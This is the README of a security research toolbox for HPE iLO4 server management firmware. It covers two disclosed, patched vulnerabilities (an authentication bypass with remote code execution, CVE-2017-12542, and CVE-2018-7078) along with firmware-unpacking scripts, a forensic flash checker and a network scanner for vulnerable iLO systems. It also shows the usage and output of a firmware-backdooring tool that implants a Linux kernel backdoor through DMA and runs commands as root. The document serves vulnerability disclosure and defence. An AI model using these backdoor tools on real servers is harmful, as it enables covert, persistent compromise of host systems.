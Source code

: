 Subverting your server through its BMC: the HPE iLO4 case
=========================================================


Introduction
------------

``iLO`` is the server management solution embedded in almost every ``HP``
servers for more than 10 years. It provides every feature required by a system
administrator to remotely manage a server without having to reach it
physically. Such features include power management, remote system console,
remote CD/DVD image mounting, as well as many monitoring indicators.

We've performed a deep dive security study of ``HP iLO4`` (known to be used on
the family of servers ``HP ProLiant Gen8`` and ``ProLiant Gen9`` servers) and
the results of this study were presented at the **REcon** conference held in
Brussels (February 2 - 4, 2018, see [1]_).

A follow-up of our study was presented at the **SSTIC** conference, held in
France (Rennes, June 13 - 15, 2018, see [8]_). We focused this talk on
firmware backdooring and achieving long-term persistence.

``iLO4`` runs on a dedicated ``ARM`` processor embedded in the server,
and is totally independent from the main processor. It has a dedicated flash
chip to hold its firmware, a dedicated RAM chip and a dedicated network
interface. On the software side, the operating system is the proprietary RTOS
GreenHills Integrity [2]_.


Results
-------

One critical vulnerability was identified and reported to the ``HP PSIRT`` in
February 2017, known as ``CVE-2017-12542`` (``CVSSv3`` 9.8 [3]_) :

* Authentication bypass and remote code execution
* Fixed in ``iLO4`` versions ``2.53`` (released in May 2017, buggy) and ``2.54`` [4]_


A second critical vulnerability was identified in  ``iLO4`` and  ``iLO5`` . It
was reported to the ``HP PSIRT`` in April 2018 and is known as
``CVE-2018-7078`` (``CVSSv3`` 7.2 [9]_, ``HPE`` Security Bulletin
``HPESBHF03844`` [10]_) :

* Remote or local code execution
* Fixed in ``iLO4`` versions ``2.60`` (released in May 2018)
* Fixed in ``iLO5`` versions ``1.30`` (released in June 2018)


Slides and demos
----------------

REcon Brussels 2018
*******************

The slides from our **REcon** talk are available here_ . They cover the
following points:

* Firmware unpacking and memory space understanding
* GreenHills OS Integrity internals:

    * kernel object model
    * virtual memory
    * process isolation

* Review of exposed attack surface: ``www``, ``ssh``, *etc.*
* Vulnerability discovery and exploitation
* Demonstration of a new exploitation technique that allows to
  compromise the host server operating system through DMA.


To illustrate them, we also release the three demos as videos. The first one
demonstrates the use of the vulnerability we discovered to bypass the
authentication from the RedFish API:


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo1_connection_bypass.gif
    :width: 100%
    :align: center

In the second one we show how the vulnerability can also be turned into an
arbitrary remote code execution (``RCE``) in the process of the web server;
allowing read access to the ``iLO`` file-system for example.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo2_dump_users.gif
    :width: 100%
    :align: center

Finally, in  the third videos, we leverage this ``RCE`` to exploit an ``iLO4``
feature which allows us to access (``RW``) to the host memory and inject a
payload in the host Linux kernel.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo3_host_pwn.gif
    :width: 100%
    :align: center


SSTIC 2018
**********

The slides from our **SSTIC** talk are available at this location_ (more
details can be found in the paper_). After a brief recap of our **REcon**
talk, we propose the following new materials:

* Firmware security and boot chain analysis
* Backdoor architecture

To illustrate these works, we release a new demo as video. It demonstrates
the use of the vulnerability we discovered in the web server to flash a new
backdoored firmware. Then we demonstrate the use of the DMA communication
channel to execute arbitrary commands on the host system.

.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo4_backdoor.gif
    :width: 100%
    :align: center



Tooling
-------

To support our research we've developed scripts and tools to help us
automatize some tasks, especially firmware unpacking and mapping.


Firmware
********

``ilo4_extract.py`` script takes an ``HP Signed file`` as input (obtained from
the update package). It is invoked with:

::

    >python ilo4_extract.py ilo4_244.bin extract


Extract from the output log:

::

    [+] iLO Header 0: iLO4 v 2.44.7 19-Jul-2016
      > magic              : iLO4
      > build_version      :  v 2.44.7 19-Jul-2016
      > type               : 0x08
      > compression_type   : 0x1000
      > field_24           : 0xaf8
      > field_28           : 0x105f57
      > decompressed_size  : 0x16802e0
      > raw_size           : 0xd0ead3
      > load_address       : 0xffffffff
      > field_38           : 0x0
      > field_3C           : 0xffffffff
      > signature


From the extracted file, ``ilo0.bin`` is the ``Integrity`` applicative image
(userland). It contains all the tasks that will run on the ``iLO`` system. To
parse each of these tasks and generate the ``IDA Pro`` loading script, one can
use the script ``dissection.rb``.

It relies upon the ``Metasm`` framework [5]_ and also requires the ``Bindata``
library [6]_.

::

    >ruby dissection.rb ilo0.bin


Back to the kernel image, ``ilo4_extract.py`` told us that:

::

    [+] iLO Header 1: iLO4 v 0.8.36 16-Nov-2015
      > magic              : iLO4
      > build_version      :  v 0.8.36 16-Nov-2015
      > type               : 0x02
      > compression_type   : 0x1000
      > field_24           : 0x9fd
      > field_28           : 0x100344
      > decompressed_size  : 0xc0438
      > raw_size           : 0x75dad
      > load_address       : 0x20001000
      > field_38           : 0x0
      > field_3C           : 0xffffffff

Using ``IDA Pro`` to load the extracted file ``ilo1.bin`` at ``0x20001000`` as
``ARM`` code, one can also study the ``Integrity`` kernel.


* ``secinfo4.py`` parses the section information embedded into the kernel image
  and creates the appropriate memory segment in the disassembler
* ``parse_mr.py`` dumps the registered ``Memory Region`` objects


``iLO5`` format differs slightly, however the same ``dissection.rb`` script
can be used to extract the ``Integrity`` applicative image.


Firmware backdooring
********************

The ``insert_backdoor.sh`` script can be run on a legitimate firmware file to
add a backdoor in the webserver module. The backdoor can then be used using
the ``backdoor_client.py`` script.

::

    >./insert_backdoor.sh ilo4_250.bin
    [...]
    [+] Firmware ready to be flashed

    >python backdoor_client.py 192.168.42.78
    [+] iLO Backdoor found
    [-] Linux Backdoor not detected
    [...]
    >>> ib.install_linux_backdoor()
    [*] Dumping kernel...
    [+] Dumped 1000000 bytes!
    [+] Found syscall table @0xffffffff81a001c0
    [+] Found sys_read @0xffffffff8121e510
    [+] Found call_usermodehelper @0xffffffff81098520
    [+] Found serial8250_do_pm @0xffffffff81528760
    [+] Found kthread_create_on_node @0xffffffff810a2000
    [+] Found wake_up_process @0xffffffff810ad860
    [+] Found __kmalloc @0xffffffff811f8c50
    [+] Found slow_virt_to_phys @0xffffffff8106c6a0
    [+] Found msleep @0xffffffff810f0050
    [+] Found strcat @0xffffffff8140c9c0
    [+] Found kernel_read_file_from_path @0xffffffff812236e0
    [+] Found vfree @0xffffffff811d7f90
    [+] Shellcode written
    [+] iLO Backdoor found
    [+] Linux Backdoor found
    >>> ib.cmd("/usr/bin/id")
    [+] Found shared memory page! 0xeab00000 / 0xffff8800eab00000
    uid=0(root) gid=0(root) groups=0(root)


Forensics
*********

The ``exploit_check_flash.py`` script can be run against an instance of ``HP
iLO4`` vulnerable to ``CVE-2017-12542``. Its purpose it to dump the content of
the flash and then compare its digest with a known "good" value.

::

    >python exploit_check_flash.py 192.168.42.78 250


Network
*******

Finally, to help people scan for existing vulnerable ``iLO`` systems exposed in
their own infrastructures, we release a simple ``Go`` scanner. It attempts to
fetch a special ``iLO`` page:  ``/xmldata?item=ALL``; if it exists, then it
extracts the firmware version and HP server type.


First edit the "``targets``" variable in the code and specify the internal
``IP`` ranges you want to scan.

::

   var (
        targets = []string{
                "10.0.0.0/8",
                "192.168.66.0/23",
                "172.16.133.0/24"}
   )


Then compile the code for your OS/architecture.

::

    > env GOOS=target-OS GOARCH=target-architecture go build iloscan.go


For example:

::

    > env GOOS=openbsd GOARCH=amd64 go build iloscan.go
    > ./iloscan

Then look the result in ``/tmp/iloscan.log`` (can be changed in the source):

::

    > less /tmp/iloscan.log
    192.168.66.69{{ RIMP} [{{ HSI} ProLiant DL380 G7}] [{{ MP} 1.80 ILOCZ2069K2S4       ILO583970CZ2069K2S4}]}

Alternatively, you can invoke the binary with a subnet on the command line (individual IP addresses should be specified as a /32 netmask):

::

    > ./iloscan 1.2.3.4/32
    Generated 1.2.3.4
    Fetching 1.2.3.4
    1.2.3.4 status: 200 OK
    {{ RIMP} [{{ HSI} ProLiant DL380 Gen9}] [{{ MP} 2.40 ILOCZJ641057H ILO826683CZJ641057H}]}


Authors
-------

* Fabien PERIGAUD - ``fabien [dot] perigaud [at] synacktiv [dot] com`` - ``@0xf4b``
* Alexandre GAZET - ``alexandre [dot] gazet [at] airbus [dot] com``
* Joffrey CZARNY  - ``snorky [at] insomnihack [dot] net`` - ``@\_Sn0rkY``



License
-------

The scripts and scanner are released under the [GPLv2]_.



References
----------

.. [1] https://recon.cx/2018/brussels/talks/subvert_server_bmc.html
.. [2] https://www.ghs.com/products/rtos/integrity.html
.. [3] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12542
.. [4] http://h20565.www2.hpe.com/hpsc/doc/public/display?docId=hpesbhf03769en_us
.. [5] https://github.com/jjyg/metasm
.. [6] https://github.com/dmendel/bindata
.. [8] https://www.sstic.org/2018/presentation/backdooring_your_server_through_its_bmc_the_hpe_ilo4_case/
.. [9] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7078
.. [10] https://support.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03844en_us
.. [GPLv2] https://github.com/airbus-seclab/ilo4_toolbox/blob/master/COPYING
.. _here: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/RECONBRX2018-Slides-Subverting_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _location: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/SSTIC2018-Slides-EN-Backdooring_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _paper: https://airbus-seclab.github.io/ilo/SSTIC2018-Article-subverting_your_server_through_its_bmc_the_hpe_ilo4_case-gazet_perigaud_czarny.pdf
